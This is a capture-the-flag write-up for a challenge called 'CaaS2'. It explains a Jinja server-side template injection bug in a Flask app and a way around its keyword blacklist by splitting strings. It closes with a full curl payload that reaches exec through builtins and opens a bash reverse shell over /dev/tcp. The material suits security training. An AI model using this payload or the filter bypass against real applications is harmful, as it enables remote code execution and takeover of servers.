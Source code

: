 # CaaS2

In `server.py` file we see SSTI vulnerability:

```python
...
name = blacklist(request.values['name'])
teamname = request.values['team_name']
return render_template_string(f'<p>Haha! No certificate for {name}</p>')
...
```

But not everything is so simple, the `name` is filtered before rendering with this blacklist (also payload length must be <= 70!):

```python
blacklist = [
    'mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app',
    'globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1',
    '2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#','eval',
    'for','while','f','d','k','h','headers',' ','open','call','subprocesses','g','.t','g.'
]
```

Well, let's bypass blacklisted keywords with splitting them and concatenating, for example:

```python
'__init__' -> '__i''nit__
```


As a gadget, we will use the exec function. To save the length of the main payload, we will move part of it to another parameter. Сombining everything together we get such a payload:

```bash
curl http://challs.n00bzunit3d.xyz:49064/generate \
    -d "name={{request['__i''nit__'].__builtins__['exec'](request.values.a)}}" \
    -d "team_name=foo" \
    -d "a=__import__('os').system('bash -i >& /dev/tcp/ip/port 0>&1')"
```
